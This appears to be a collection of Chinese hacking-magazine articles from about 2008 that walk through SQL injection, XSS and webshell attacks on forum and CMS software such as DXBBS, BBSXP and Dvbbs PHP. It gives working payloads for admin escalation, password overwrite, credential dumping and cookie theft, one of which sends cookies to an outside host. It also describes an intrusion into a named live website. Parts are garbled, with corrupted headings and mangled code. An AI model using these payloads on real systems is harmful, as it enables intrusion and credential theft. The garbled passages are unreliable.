        new OleDbParameter("@UserName", 0xc2),
        new OleDbParameter("@Types", 3),
        new OleDbParameter("@FileType", 0xc2),
        new OleDbParameter("@AddTime", 7)
    };
    pt[0].set_Value(upload.BoardID);
    pt[1].set_Value(upload.TopicID);
    pt[2].set_Value(upload.ReplyID);
    pt[3].set_Value(upload.FileName);
    pt[4].set_Value(upload.FileSize);
    pt[5].set_Value(upload.UserID);
    pt[6].set_Value(upload.UserName);
    pt[7].set_Value(upload.Types);
    pt[8].set_Value(upload.FileType);
    pt[9].set_Value(upload.AddTime.ToString());
    dp.ExecuteNonQuery(commandTxt, pt);
    return num;
}
```

所有的参数都是作为数据驱动的 DataProvider 来处理，这里的数据操作方法很典型。

```csharp
if ((obj != null) && (obj2 != null))
{
    num = Convert.ToInt32(obj2);
}
return num;
```

AddUpload 是处理上传之后所做的一些数据操作，这里的数据操作方法很典型。

```csharp
string commandTxt = "Insert Into " + dp.TablePrefix + "Forum_UploadFile (BoardID, TopicID, ReplyID, FileName, FileSize, UserID, UserName, Types, FileType, AddTime) Values (@BoardID, @TopicID, @ReplyID, @FileName, @FileSize, @UserID, @UserName, @Types, @FileType, @AddTime)";
OleDbParameter[] pt = new OleDbParameter[] {
    new OleDbParameter("@BoardID", 3),
    new OleDbParameter("@TopicID", 3),
    new OleDbParameter("@ReplyID", 3),
    new OleDbParameter("@FileName", 0xc2),
    new OleDbParameter("@FileSize", 3),
    new OleDbParameter("@UserID", 3),
    new OleDbParameter("@UserName", 0xc2),
    new OleDbParameter("@Types", 3),
    new OleDbParameter("@FileType", 0xc2),
    new OleDbParameter("@AddTime", 7)
};
```

这里使用的是参数追加的方式。当然，构造 SQL 模板的时候是以字符串拼接的方式构造的，但是 dp.TablePrefix 这些都是我们无法控制的，是论坛已经定义好的，然后追加参数，代码如下：

```csharp
pt[0].set_Value(upload.BoardID);
pt[1].set_Value(upload.TopicID);
pt[2].set_Value(upload.ReplyID);
pt[3].set_Value(upload.FileName);
pt[4].set_Value(upload.FileSize);
pt[5].set_Value(upload.UserID);
pt[6].set_Value(upload.UserName);
pt[7].set_Value(upload.Types);
pt[8].set_Value(upload.FileType);
pt[9].set_Value(upload.AddTime.ToString());
```

最后是执行准备好的语句。

这个过程没有问题：

```csharp
dp.ExecuteNonQuery(commandTxt, pt);
```

这里使用的是字符串拼接的方式，但是可以看到无论是 Server.DateTime 还是 upload.UserID 都是我们所无法控制的，接着看最后一条：

```csharp
upload.FileName = fileUploadPath + str2;
```

## 【薪词绿钻簇】←2008.04 雅安全藏管手册

再往上，查看代码：

```csharp
if (ForumConfig.ReadConfigInfo().FileNameType == 1)
{
    ...
}
```

如果论坛设置 ForumConfig.ReadConfigInfo().FileNameType 为 1，就不储存原来的文件名，否则就存储原来的文件名 str7，再跟原路径后面的 str7。

```csharp
string str7 = this.a.get_PostedFile().get_FileName();
string str2 = str7.Substring(str7.LastIndexOf("\\") + 1);
```

可以看到最终来自于我们上传的文件名，并且没有做任何过滤，我们可以进行 SQL 注射了……

拿去试了下，没贴出图，没关系，既然是 SQL Server，那么我们可以做多语句的操作，把自己 user 添加进管理吧！修改名为 nc 的文件名为：

`nc'; update dx_forum_user set levelid=1, leveltype=1 where username='badegg'--.rar`

这样 badegg 这个用户就能成为超级管理员了……

这样一个 SQL 注射漏洞算是利用完成。转到后台了，就看看怎么拿 shell 吧！

现在一般所说的拿 shell 都是指 .NET 的文件头处理漏洞，其实任何的写操作都是拿 shell 的机会，后台拿 shell 的方法很多……

将这个文件引入进来执行。既然是执行，就可以执行代码了……

## 非安全宝典 黑客手册 2008.04【新漏洞综览】

### DXBBS BBS ASP.NET 论坛系统

然后，最后不要忘记了擦屁股，如图6。

SQL 注入性质是不是挺真的，有些时候 dxbbs 还是存在的，他说的根据对于多数进行严格过滤就有点晚了。另一个严重的问题就是几乎任何程序所关心的客户端问题：跨站脚本漏洞。他整个的过滤是在 Filter 这个类里完成的，代码在 `Components\Filter.cs` 里。一些相关的方法如下：

```csharp
public static string ClearHTML(string Content)
{
    if ((Content != null) && (Content != string.Empty))
    {
        Content = Content.Replace("<", "&lt;");
        Content = Content.Replace(">", "&gt;");
        return Content;
    }
}

public static string ClearIframe(string Content)
{
    if ((Content != null) && (Content != string.Empty))
    {
        string str = "<iframe|</iframe|<frame|</frame";
        foreach (string str2 in str.Split(new char[] { '|' }))
        {
            Content = Regexs(Content, str2, "&lt;" + str2.Substring(1));
        }
        return Content;
    }
}

public static string ClearJS(string Content)
{
    if ((Content != null) && (Content != string.Empty))
    {
        Content = ClearIframe(Content);
        string str = "position|left|top";
        foreach (string str2 in str.Split(new char[] { '|' }))
        {
            Content = Regexs(Content, @"(style\s*=\s*['\"]?[^'\"]*" + str2 + @"[^'\"]*['\"]?)", "");
        }
        string str3 = "<script|</script|cookie|alert";
        foreach (string str2 in str3.Split(new char[] { '|' }))
        {
            Content = Regexs(Content, str2, "<span>" + str2.Substring(0, 1) + "</span>" + str2.Substring(1));
        }
        return Content;
    }
}
```

稍微做点 XSS 的人都知道这些过滤基本就是靠脑插入的，这样的被动过滤起不了什么作用。怎么那么认真地把 XSS 弄了，就认识这一把都要支持的 UBB 格式带来手写吧，这些经过过滤将会转换为 HTML 标签。来看看他的 UBB 标签转换代码，也是在 Filter 类的 UBB 方法里，以 `[email][/email]` 为例子：

可以看到正则是“`\[email\]([\s\S]+?)\[/email\]`”，没有任何有效的验证，只要不是空格就可以了，呵呵，最终又会被放到 `<A href=</A>` 标签的属性里，属性以 `"` 作为限制，但是他并没有过滤掉，那么很简单，“%20” 就被攻陷了！举个例子：

```text
[email] style=\"expression(alert('xss'))\" hello[/email]
```

我很不喜欢这句，因为会报错，稍微改下：

```text
[email] style=\"expression(eval('if(window.x!=1){...alert('xss')...}'))\" hello[/email]
```

啊，`alert` 被转了！因为 ClearJS 方法的这段代码：

```csharp
public static string ClearJS(string Content)
{
    if ((Content != null) && (Content != string.Empty))
    {
        Content = ClearIframe(Content);
        string str = "position|left|top";
        foreach (string str2 in str.Split(new char[] { '|' }))
        {
            Content = Regexs(Content, @"(style\s*=\s*['\"]?[^'\"]*" + str2 + @"[^'\"]*['\"]?)", "");
        }
        string str3 = "<script|</script|cookie|alert";
        foreach (string str2 in str3.Split(new char[] { '|' }))
        {
            Content = Regexs(Content, str2, "<span>" + str2.Substring(0, 1) + "</span>" + str2.Substring(1));
        }
        return Content;
    }
}
```

不过治标不治本没用哦！我们把它拆开成下边这样：

```text
[email] style=\"expression(eval('if(window.x!=1){...}'))\" hello[/email]
```

出来了，如图7，我真喜欢字符穿啊，呵呵！

其他标签攻击方法类似，甚至更隐蔽，譬如：


```text
[font] style=\"expression(eval('if(window...'))\" hello[/font]
```

### 图8 首页源文件

只要跳出这个就可以在首页执行 HTML 代码了，黑的话也不在话下！试试用上面的跨站代码吧！

```html
<script>document.write('')</script>
```

把这个作为标题去发一帖！靠啊，只有 50 个字符啊！又要精打细算了！这里你当然可以通过每个论坛板块来发帖子，最终组合成一个好用的，我就不这么多要求了，给出个思路得了吧！

```css
<style>x:expression(document.write('hello'))</style>
```

首页就像被杀了，阿门！如图9。

### 图9 首页就被杀了

很熟悉是么？其实我们根本不必如此浅显。其官方的说明里有“对 cookies 采用了特殊加密处理，使得系统具有高度的安全性”这句话，我开始不理解为什么要这么做，后来有了 7.x 版才知道，他们原来是把 md5 密码直接存在 cookie 里，所以其实 XSS 是致命的。那个版本到底是什么样的特殊加密处理呢？安全性到底如何呢？

```csharp
public static void CheckCookies()
{
    ...
}
```

```csharp
bool flag = false;
string userName = Filter.Decode(cookie.get_item("UserName"));
string password = Filter.Decode(cookie.get_item("UserPass"));
string str3 = Filter.Decode(cookie.get_item("Key"));
```

上面比较有意思的就是 Decode 方法和 `Clients.CookiesKey` 的验证。首先看看 Decode 方法，在 Filter 类里 decode 方法：

```csharp
public static string Decode(string str)
{
    ...
}
```

可以看到这里面的每一步都是可逆的，也没有任何外部 Key 的参与，根本不能算是加密，只能算是一种混淆算法。知道算法的时候完全可以对加密内容解析开，我这边用 PHP 实现了译解：

## 《我安全黑客手册》2008.04【漏洞练练看】

看来加密是吓唬人的，更可怕的是系统对于这种加密的信任。在 login 动作中可以看到：

```php
function decode($str){
    $temp = explode("@", $str);
    $num = count($temp);
    for($i=0; $i<$num; $i++){
        $xxx = $xxx . trim(chr(( $temp[$i] - $num ) - 5));
    }
    return str_replace(chr(0), '', base64_decode($xxx));
}

echo decode('903E9E83E140E5E89E99E08E102E090E917E69E97E19E69E');
```

通过上下文的代码我们知道系统居然将未加密的原始密码和用户名存入到 Cookie 当中，只要跨站就可以获得用户的原始密码，这将系统的安全性又降低了一大层！那么那个 Client CookiesKey 是怎么回事呢？在 Clients 类中有定义这项属性：

```csharp
public static string CookiesKey
{
    get
    {
        if( ... ForumSystemConfiguration.HashPasswordForStoringInConfigFile("Agent" + ForumConfig.ReadConfigItem("SecurityKey", "MD5"), Substring(8, 0x10)).ToLower();
    }
}
```

原来是将浏览器的类型与论坛的 key 做 md5 运算，以求 cookie 和浏览器的绑定。但是我们也知道，这不起任何作用，因为当 XSS 攻击发生时，攻击者一样可以获得浏览器的执行代码，而且 XSS 可以直接在对方的浏览器里执行代码，即便不知道，也一样可以利用对方浏览器进行各种数据提交和操作！这种验证就犹如把空城计画也！

再就是关于验证方面，由于系统太过信任自己数据库的安全机制，只要对方有 cookie 并通过验证，即便进入后台都不用再次验证密码，这的确是方便了很多人啊，而且后台更加脆弱。并且已经证明可以很容易做 webshell。我们来针对一个 dxbbs 论坛做一个 XSS 渗透测试，既然安全机制这样，就糊他个 cookie 上手了啊，呵呵！

```text
Exploit
{font-family:system;expression(eval(unescape('...')))}

cookie = + i + indexOf('%28%26%27%29%26%3D%3D...')
/www/loveshill.net/image.php%3C%27+escape(document.cookie)+'%3C%2Fdocument.cookie%3E
```

然后我们去论坛发个帖子，最近陈冠希很火啊，就以这个为题材，在内容里嵌入我们上面的 exp，如图10。结果第二天就有消息说我的帖子被移动了，这正好啊，普通人不可能移动帖子的，于是上去一看，果然收集到了几个。


## 两个 BBSXP 注入分析暨利用

从本文可以学到：

- BBSXP 注入分析
- 令 webshell 的方法

### 一、news.asp 注入

bbsxp 在 ASP 论坛的市场上目前还是不错的，并声称：“BBSXP 是目前互联网已公认速度最快，系统资源占用最小的 ASP 论坛”。这不，最近 BCT 的朋友公布了它的注入漏洞，漏洞文件是 `new.asp` 的 24 行，关键代码如下：

```asp
Sort=HMLEncode(Request("Sort")) ' 第24行

if Sort = empty then
    SqlSort="ThreadID"
else
    SqlSort=Sort
end if
```

用 Request 方式获取 Sort 变量并用 HMLEncode 函数检验，然后再判断是否为空，不为空再把 Sort 变量提交给 SqlSort 变量，在 66 行则程序拿 SqlSort 变量进行查询了：

```asp
Sql= "Select top "&a&" PageCount "&" from ["&TablePrefix&"]threads] where ... ";
...
' 第66行
```

在这里，我们不难看出，只要绕过那个 HMLEncode 函数就可以进行注入了。HMLEncode 函数在 `new.asp` 所包含的 `BBSXP_Class.asp` 中，关键代码如下：

```asp
Function HMLEncode(fString)
    fString=Replace(fString,CHR(9),"")
    fString=Replace(fString,CHR(10),"")
    fString=Replace(fString,CHR(13),"")
    fString=Replace(fString,CHR(32)," ")
    fString=Replace(fString,CHR(34),"&quot;")
    fString=Replace(fString,CHR(39),"&#39;")
    fString=Replace(fString,CHR(42),"&#42;")
    ...
End Function
```

隐藏了一个任意文件上传漏洞，在早期的 .net 里虽然曾在文件操作的时候严格限制了允许的字符，但是 `Server.MapPath` 方法存在一个 NULL 截断漏洞，导致可以上传 aspx 文件。不过被那个该死的自动更新升级了，这个漏洞也不存在了。这样看来，语言的安全给安全带来代价，但是不能带来全部。

《欢迎大家到我的 Blog（http://www.loveshell.net/）来讨论。》

编辑点评：……

HTMLencode 函数过滤了 Tab 键、空格、* 等可注入字符，bbsxp 这样就认为自己过滤得非常漂亮，其实不然，一样可以绕过，构造如下语句：

```text
new.asp?Sort=ThreadID/**/or/**/1=1--
```

这种绕过方式导致了这个注入漏洞只局限于 SQL 版本当中，其中 username 是 “Tommie” 经过 unicode 转换过的。这里以 2008 版为例，测试一下这个漏洞，首先注册一个用户 Tommie，如图1。

然后往地址栏提交上面的语句，如果返回页面类似图2，就说明成功了。

返回首页刷新一下页面，发现已经是管理员了，如图3。

有些管理员因见到这里的安全隐患后已经把权限关闭了，不用怕，直接构造语句改他的密码。


## 怪客黑客手册 2008.04【新闻纸练习篇】

`bbsxp_users / http://select ... / UserPassword=0x310032003200340031003000320033003003003400600600006300700300800; ... / article?UserID ... / select ... / users ... / order by ...`

其中 UserPassword 是 “nohack” 的 16 位 MD5 加密后用 unicode 转换后的字符串，至于怎么取管理员的 ID，可以到百度搜索“site:www.xxx.com 角色：管理员”，可能一个论坛有好几个管理员，怎么找到是 `UserID=1` 的管理员就靠你的 google hack 分析能力了。

### 二、manage.asp 版主注入搞 WEBSHELL

进入后台后，有很多朋友都不知所措，因为 SQL 版本是无分页的，如图4。ACCESS 版本做 WEBSHELL 的方法可以参照去年某文章的手动抓包为 WEBSHELL 的那篇文章。至于 SQL 版没有这个备份功能，前面就是异地代码 hack 式的 WEBSHELL 的方法。这个方法是 cool_wxd 最近发现了我们 BBSXP 2008 版主权限漏洞了，但能放这个洞的条件是要有论坛版主或管理员才能注入，漏洞文件是 `manage.asp`，详细的分析如下：


```asp
<!-- #include file="Setup.asp" -->
<%
if Cookie!UserName<>empty then error("您还未登录")
...
```

```asp
case "PostVisible"
  for each ho in Request.Form("PostID")
    h0=int(ho)
    Execute("update ["&TablePrefix&"]Posts] set Visible=0 where ThreadID="&ThreadID&" and PostID="&h0)
    ...
case "DelPost"
  for each ho in Request.Form("PostID")
    h0=int(ho)
    rs=open "select * from ["&TablePrefix&"]Posts] where ThreadID="&ThreadID&" and PostID="&h0&""
    ...
```

以上是 cool_wxd 的分析过程。好了，简单地说我们可以控制 ThreadID 变量进行注入，并且发帖方式限制为 POST。我们现在随便挑选一个帖子进行操作，这里选择“锁定”。为了比较稳妥，一般选择构造一个数据包，如图5。


用 winsock 抓包，如图6，把第一条 POST 数据包保存到 `nc_f` 文件中，参数改成 `FormID=65&ThreadID=5256%20and%201=1&menu=IsLocked`；这样一来增加了多少字符再修正一下 `Content-Length` 的值，提交生成的 `1.htm` 回显结果。回显后，OK，用总结命令 WEBSHELL，语句如下：

```asp
FormID=65&ThreadID=5256';alter%20database%20bbsxp%20set%20recovery%20full%20...&menu=IsLocked
```

## 【新闻继续学】2008.04 随玄界安全手册

至于 WEB 路径可以到后台“主机环境变量”里去，如图 8。  
如果不是数据库分离的话就可以拿到 WebShell，如图 9。

## 总结

我个人比较喜欢研究 BBSXP 这种程序，可以说是情有独钟了。我觉得初学发掘漏洞的朋友应该多多研究 BBSXP 这种程序，会让你很有成就感。这次针对我刚才拿下的站，不是 new.asp 里竟然可以直接输入前台注入，但因为什么 HTMLencode 函数过滤的原因，所以使得我们想要通过程序获得很多东西不方便。文章有啥问题可以……

## 编辑点评

挺好的一篇文章，思路和我们以往有些不同，可谓“创先进”呀。BBSXP 这个系统算是较常试的，最有内涵的、省时的，朋友都可以多试试代码，按照代码的思路，想一些相似的，会很有收获。

## 新试用 insert 来注射 mysql

从本文可以学到：

- insert 来注射 mysql 的技巧
- 举例说明

```php
mysql_connect('localhost','root','xxxx');
mysql_select_db('flyfly4');
$info = $_GET['info'];
$username = $_GET['username'];
$sql = "insert into contents(username,info) values('$username','$info')";
$result = mysql_query($sql);
while($rs = mysql_fetch_object($result)){
    echo $rs->username;
    echo $rs->info;
}
```

mysql 数据库中 select 语句的注射是很常见的，但是大家常常忽略了其他语句，比如 update 和 insert 的注射。今天我们利用一个非常简便的留言本代码来测试一下利用子查询来对 insert 的一点思路，要求 mysql 支持 4.1。本文只是一个 poc 性质的东西，给新人们留下了一些思考的地方。

### 1. 测试环境

mysql Version 5.0.22 + PHP Version 5.2.1

### 2. 测试的数据库结构

```sql
CREATE TABLE `user` (
  `username` varchar(12) NOT NULL default '',
  `pass` varchar(12) NOT NULL default '',
  `message` varchar(50) NOT NULL default '',
  PRIMARY KEY (`username`)
) ENGINE=MyISAM DEFAULT CHARSET=latin1;

CREATE TABLE `contents` (
  `username` varchar(12) NOT NULL default '',
  `info` varchar(50) NOT NULL default '',
  `id` int(11) NOT NULL default '0'
) ENGINE=MyISAM DEFAULT CHARSET=latin1;
```

### 3. 代码

提交语句：  
http://xxx/url.php?user=testtest&info=(select concat(0x2f,username,0x2f,pass) from user)

insert 语句变成了这样的：insert into contents(username,info) values('testtest',(select concat(0x2f,username,0x2f,pass) from user))，我们可以看到 sql 语句成功地运行了，如图 1。

### 4. 实际环境下的利用

实际情况中，很多脚本系统都有漏洞，发现上述这种类型的漏洞，国内的如 sablog、国外的如 mybb，要注意的几点：

- 一是 MYSQL 支持 insert into [name, pass] values('aa','bb'),('cc','dd') 这样的数据插入；
- 二是往往在 $_SERVER 入库时比较容易产生可利用的漏洞。

原因还是那个单引号。下面我们看个例子：

zj1244 号的留言本（下载地址：http://xdfx.0r/show-157-1.html），该同学是国内某黑客杂志的撰稿人，对 php 脚本的漏洞貌似很有研究，但是避免有窃密的地方，先笑他一下。

```php
// input.php

if($_SERVER['HTTP_CLIENT_IP'])
    $ip = $_SERVER['HTTP_CLIENT_IP'];
    // 没有通过 HTTP_CLIENT_IP 变量
elseif(isset($_SERVER['HTTP_X_FORWARDED_FOR']))
    $ip = addslashes($_SERVER['HTTP_X_FORWARDED_FOR']);
else
    $ip = $_SERVER['REMOTE_ADDR'];
```

```php
$sql="insert into contents (name,sex,hide,qq,email,ip,content,subject,
    times) values ('${name}','${sex}','$hide','$qq','$email','$ip','$content','$subject',
    now())";
// 有害的变量就放入了数据库，发生了注射
$result=mysql_query($sql);
```

这个漏洞利用起来很简单：像下面这样伪造变量 $_SERVER['HTTP_CLIENT_IP']='127.0.0.1','test','test',now()) ('aa',1,1,'378367942',(select concat(0x2f, admin_name, 0x2f, admin_password) from admin), '127.0.0.1' 就可以在留言本插入额外数据并得到管理员用户名和密码，不用担心单引号，在 php>=5 时，$_SERVER 变量不受 gpc 限制。

## 编排点评

很喜欢这种轻松小料样的，能一针见血地说明问题，又能针对问题举个小例子示范的注入文，这无疑引得别处如该类资料更好看，这和某些扯远的引注相辅。

## 崭新动网 PHP 版漏洞
### 从离线到实战

从本文可以学到：

- 动网 PHP 版注入漏洞分析
- 实战渗透动网 PHP 版

大家好，2 月份给大家讲了动网 ASP 版的漏洞分析与利用，这一期将给大家带来动网 PHP 版漏洞分析与利用。动网现在有 ASP、ASP.NET、PHP 三个版本，ASP 版本占到了国内论坛的 70%-80%，主要是由于动网论坛简单、易用，但是也有很多安全问题。下面，给大家详细讲讲 PHP 版本的漏洞，并附带一个实际渗透实例。

## 一、漏洞篇

首先，到官方网站下载最新的动网 PHP 版，在本机搭建好漏洞测试环境。最好是 PHP+MYSQL 环境，大家可以找一个 apache+mysql+zend 套件，双击就可以安装，一下子就可访问了。为了方便，假设你的安装非常简单，提示就已经把系统配置好了。在本文中将会讲到，如何安装：http://127.0.0.1/install/，它会提示你“下一步”输入数据库用户名和口令，然后系统记住管理员密码，大家按照提示就可以安装成功。

```php
// 图中所标出来的部分就是产生注入漏洞的
```

动网 PHP 版主要存在的是注入漏洞，漏洞出现在网站根目录的 boardrule.php 文件，下面是关键代码，如图 1 所标出来的部分就是产生注入漏洞的。

```php
$groupboardid=$_GET['groupboardid'];
if(empty($_GET['groupboardid']))
    $rules=$db->scalar('select rules from {$dv}group_board where id='
```

代码中我们可以看出，groupboardid 变量通过 get 方式获取，groupboardid 不为空就直接带入数据库查询语句，变量 groupboardid 没有经过任何过滤。

进入话题，提交语句：

http://127.0.0.1/dvbbsphp/boardrule.php?groupboardid=1111111/**/union/**/select/**/1/*

如下图 2。由于数据库查询语句只显示一个字段，所以这里也只能查一个字段，如果我们想一次查询出多个值怎么办呢？

根据查询字段只显示一个字段，看看如何注入查询出多个值。我们可以利用 concat 函数来把这些字段连接起来显示。比如：SELECT CONCAT('My','S','QL')，执行结果是 MySQL。

```text
http://127.0.0.1/dvbbsphp/boardrule.php?groupboardid=1111111/**/union/**/select/**/concat(user,0x3f,database(),0x3f,version())/*,0x3f
```

下面，我们来看管理员用户名和口令，构造语句如下：  
http://127.0.0.1/dvbbsphp/boardrule.php?groupboardid=1111111/**/union/**/select/**/concat(username,0x3f,password,0x3f,adduser)/*from/**/dv_admin/*

我们从 DV_ADMIN 表中看出了第一条管理员记录，adduser 是管理员前台用户名，如图 4。

下面，我们来查询 admin 前台用户的口令，构造语句如下：  
http://127.0.0.1/dvbbsphp/boardrule.php?groupboardid=11111111/**/union/**/select/**/concat(username,0x3f,userpassword)/**/from/**/dv_user/**/where/**/usergroupid=1/*

查询出来前台管理员的用户名和口令，如图 5。

现在，我们可以利用查询出来的管理员用户来登录后台。动网 PHP 版后台转 WebShell 比较简单，在“外观风格”模块中“风格界面模板管理”里新建一个模板页面，然后编辑模板页面，把 PHP 马写在里面就行了。WebShell 路径是模板路径加上模板名称和文件，我这里的 WebShell 地址是：http://127.0.0.1/dvbbsphp/templates/default/test1.tpl.php，test1 是我新建模板的名称，如图 6。

## 二、实验篇

上面讲了动网 PHP 版的漏洞分析与利用，大家是不是觉得在本地测试不过瘾呢？那下面我给大家带来的是动网 PHP 版的实战演示。我们在网上找一个论坛进行测试，下面开始实战渗透之旅。

首先，我们打开 www.google.com，输入关键字“Powered by Dvbbs.PHP 2.0”，约有 1,160,000 项符合，看来动网 PHP 版的论坛还真不少。随便找了一个论坛，网址是 http://www.bjgooo.cn/，网站好像是挺规整的，不管那么多了，直接测试是否存在 PHP 注入漏洞，提交语句：

http://www.bjgooo.cn/boardrule.php?groupboardid=11111111/**/union/**/select/**/concat(username,0x3f,password,0x3f,adduser)/**/from/**/dv_admin/*

成功猜解出管理员用户名和口令，如图 7。

再来猜解前台管理员口令，提交语句：  
http://www.bjgooo.cn/boardrule.php?groupboardid=11111111/**/union/**/select/**/concat(username,0x3f,password)/**/from/**/dv_user/**/where/**/usergroupid=1/*

得到前台管理员口令，如图 8。

利用猜解出来的管理员用户名和口令成功登录后台，如图 9。下面，再到“风格风格”模块中“风格界面模板管理”里新建一个模板页面，然后编辑模板页面，把 PHP 马写在里面就行了。WebShell 路径是模板路径加上模板名称和文件，我这里的 WebShell 地址是 http://www.bjgooo.cn/templates/default/test.tpl.php，如图 10。

动网 PHP 版的安全性较 ASP 版好，这种简单的注入问题竟然也会出现，也不知道程序员当初写程序时是什么心态了。在我提交这篇文章的时候，官方 PHP 版演示网站还没有恢复正常，如图 11，不知道是不是因为漏洞被改了，还是其他什么原因。

## 三、总结篇

动网 PHP 版漏洞分析与利用到这里就告一段落了，网上很多……

## 嘉枫文章管理系统文本框中搜索型注入

从本文你可以学习：

- 文本框中搜索型 SQL 注入
- 实际的渗透过程

## 一、前奏

最近找了一下学校的网站，发现有一个叫“嘉枫文章管理系统 v1.2”的系统，上网一搜并下载回来，在本地架好，如图 1。随便点击一个链接，在地址栏出现 http://127.0.0.1/嘉枫文章管理系统%20v1.2/news.asp?id=99，在后面加上一个单引号提交，出现错误页面，如图 2。说明文件 news.asp 对参数做了过滤，打开来看了一下，代码如下：

```asp
<%
id=request("id")
if isnumeric(id)=0 then
  response.write "不要这样，大家都是混口饭吃"
  response.end
end if
%>
```

提交的参数 id 不是数字类型的，就会出现这样的错误页面。再看了下数据库连接文件 conn.asp，看到加入了容错语句 error resume next。再看首页左边“文章搜索”下面有一个文本框，是用来搜索用的。还有一篇关于文本框中注入的文章，里面介绍：“当今 ASP 适合大行其道，网上随处可见注入方法的文章，但是这样的文章中例子多数都是针对 x.asp?id=1 这种格式，对于一些单元元素，像文本框内的注入方法是极少的。其实，有一些网站大多都是通过这样的条件，给注入者机会，所以在搜索框里就要摸索些关键字来进行搜索。”

## 二、分析

搜索页面提交表单对应的代码如下：

```asp
<form name='form1' method='get' action='search.asp'>
<td height='30' align='center' bgcolor='#efefef'>
<input type='text' name='key' size='19' class='input'>
</td>
</tr>
<tr>
<td height='30' align='center' bgcolor='#efefef'>
<select name='otype' class='input'>
<option value='title' selected class='input'>文章标题</option>
<option value='cont' class='input'>文章内容</option>
</select>
<input type='submit' name='Submit' value='搜索'>
</td>
</tr>
</form>
```

以上代码用 get 方法提交表单 form1 给 search.asp，于是来到 search.asp 看下它是怎么处理的，代码如下：

```asp
<%
key=request("key")
otype=request("otype")
if key="" then
  response.write "<script>alert('查找字符串不能为空!')"
  history.back;
end if
Set rs=Server.CreateObject("ADODB.Recordset")
if otype="title" then
  sql="select * from NEWS where title Like '%"&key&"%' order by id desc"
elseif otype="cont" then
  sql="select * from NEWS where content Like '%"&key&"%' order by id desc"
else
end if
rs.open sql,conn,1,1
if rs.eof and rs.bof then
  response.write "<p align='center'>对不起，没有找到相关结果</p>"
end if
```

很明显可以看出提交的参数 key 没有经过任何过滤，只要提交就直接执行 sql 语句，漏洞形成。现在我们就可以构造 sql 注入语句来注入。

如果设置 key 为关键字，我们可以这样来判断有没有漏洞。先输入：

asp%' and 1=1 and '%'='%'

对应的执行语句是：

select * from NEWS where title Like '%asp%' and 1=1 and '%'='%' order by id desc

返回了正常页面，如图 3。

再输入：

asp%' and 1=2 and '%'='%'

对应的执行语句是：

select * from NEWS where title Like '%asp%' and 1=2 and '%'='%' order by id desc

返回空页，如图 4。这样我们就可以判断存在漏洞了。

接下来搜索表，输入：

asp%' and exists (select * from admin) and '%'='%'

返回正常，如图 6，说明存在 admin 表。再输入：

asp%' and exists (select ...

## 三、利用

## 对 boblog 系统的分析

从本文你可以学到：对 boblog 系统的跨站漏洞分析。

boblog 这套系统用的人数还挺多的，大家要不要 Google 搜索一下就可以知道了。搭建好平台后，如图 1。我的这套系统版本是 2.0.3，界面很简洁而且后台的功能很强大，因此受到了许多人的喜爱。

### 一、初探注入

看一套程序的漏洞，我比较喜欢先看这套程序有没有明显的注入性。在包含的文件 global.php 中我们发现，大家都明白，系统的安全过滤程序，对于变量的过滤，如这样的代码：

```php
function safe_convert($string) {
    $html = $string;
    if ($html !== htmlspecialchars($string)) {
        ...
    }
}
```

编辑点评：文本中把变量型 SQL 注入的内容不是很多，但是其原理基本上是一样的，是没有正常过滤就对 SQL 里面执行语句导致的问题。最后，漏洞……

### 二、跨站

安装好这套程序后，会有一篇测试日志，提供了评论的输入：

`<script>alert(/test/)</script>`

后，发现没有出现弹出的框框。大家刚才也看到了上面的过滤函数，如果它用这个函数对评论的内容进行过滤，自然就能被过滤到了，但是程序员忘了写一个逻辑错误。

```php
$string = addslashes($string);
$string = str_replace(...);
return $string;
```

admin, 9, 10, 11, 12, 13, 14  
from admin where id=1 ...

这里提问很多，首先是直接取得变量名不做任何判断过滤。默认的在高版本的 PHP 环境中，get_magic_quotes_gpc 是开启的，也就是说会自动对变量进行过滤。而接下来程序传的东西一般又会过滤掉很多东西。然后如果 get_magic_quotes_gpc 开关是开启的，那么用 stripslashes 去掉转义符后，借此就能得到原始字符串，这就是之前提到的字符转换。这样一增一消和没有一样，尤其能够放行代码的。总结来说，是一开始就可以这样。

## 总结

由于需要管理员权限才能进入后台编辑日志，所以这个阶段也算是个入门了，不过最后经过测试发现，其最新版本中也存在此问题。如果大家有什么不明白的地方可以到 NOHACK 来找我，我的 ID 是“别喊我的网名”。

编辑点评：boblog 系统中的这个跨站漏洞的出现真是让人无奈。可能是程序员们太过疏忽了，导致至今仍未修正。

本文可以学习到：88red 漏洞分析和利用。

很多攻击者对 asp300 诱惑了，不去总结觉得对不起这段时间的变化，也对不起“黑客手册”那么多读者的编者要求。既然那时候来说不太容易拿到代码，立即赶下版开始写的时候就觉得最难表达。在小系统方面，88red 此前编写页面前面调用的整站系统 V3.0，是经过简单的接口来推广的，具有企业新闻中心、企业产品、搜索引擎、客户留言、下载、投票系统等功能，基本满足一个企业网站所需要的基本功能；其生成静态页面的能力使企业网站功能的提升和 SEO 提供了最大的帮助，系统设计了新的美工，更加贴近企业网站效果。我们再转回来说话。

### 1、未过滤的留言版

打开目录后发现 config.asp 等文件，就觉得奇怪。首先看 config.asp，是没有什么特别的，conn.asp 里做了容错（就是防止恶意）。没问题？当然有，我们来看下 conn.asp。

```asp
<%
'On Error Resume Next
...
Set conn = Server.CreateObject("ADODB.Connection")
conn.Open "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
%>
```

顺便查找了一下，找到了数据库，还是 asa 的，想到了一句：这不就太折腾了。什么东西能和一句话连在一起呢？怎么让他人晕呢？几处留言、发布等地方，我看了一下根目录，都是静态的，想想 HTML 注入行不行？这个想法我先搁着，去看留言。留言都是静态的，哎！投票，继续——根目录下有个叫 savegb.asp 的文件，想想也知道是保存留言的文件，那就看他的过滤吧。

部分代码如下：

```javascript
if(request.form("content")!="") then
response.write "<script language=javascript>alert('请填写您的名称');this.location.href='javascript:history.go(-1)';</script>"
response.end
end if
if(request.form("content")<>"") then
response.write "<script language=javascript>alert('请填写留言内容');this.location.href='javascript:history.go(-1)';</script>"
response.end
end if
set rs=server.createobject("adodb.recordset")
...
```

文件头也就是个 conn.asp。没什么防止或者过滤的，这样就造成 2 个结果：

- 第 1，直接写入数据库。
- 第 2，导出脚本在访问网站的时候直接执行。

第 2 个，我们来看 XSS。XSS 大家马上想到有没有办法拿到 webshell，比如利用管理员的 session 进行操作什么的。跨站得到 webshell，再到后台里。后台验证的运行，至少是我们的方式。

```vb
TheAdmin = Replace(Trim(Request("User")), "'", "")
Pass = Replace(Trim(Request("Pass")), "'", "")
Sql = "Select * From Admin Where adname='" & TheAdmin & "'"
Rs.Open Sql,Conn,1,3
If Rs.Eof Then
